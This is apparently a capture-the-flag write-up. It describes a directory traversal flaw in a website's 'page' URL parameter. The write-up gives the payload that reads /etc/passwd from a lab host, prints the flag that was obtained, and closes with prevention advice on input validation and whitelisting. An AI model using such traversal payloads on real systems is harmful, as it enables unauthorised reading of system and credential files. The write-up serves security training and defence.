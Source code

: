 # Description

When browsing the ctf website we notice something weird is that all pages are accessed by a url parameter which is page.

`http://10.14.59.83/index.php?page=`


# Attack

What we are going to do is try to see if we can access internal files using this parameter.

Let's try /etc/passwd.

`http://10.14.59.83/index.php?page=../../../../../../../etc/passwd`

And We got the flag

```
Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 
```

# Prevent
	- *Input Validation:* Validate and sanitize user inputs thoroughly before using them. Do not allow any input that could potentially be used to navigate directories or access files outside of the intended scope.

	- *Whitelist Valid Pages:* Maintain a whitelist of valid page names that are allowed to be accessed via the page parameter. Only allow pages that you have explicitly defined.

	- *Parameter Sanitization:* Sanitize the page parameter by removing any special characters or sequences that could be used to perform directory traversal attacks, such as ../ or ..%2f.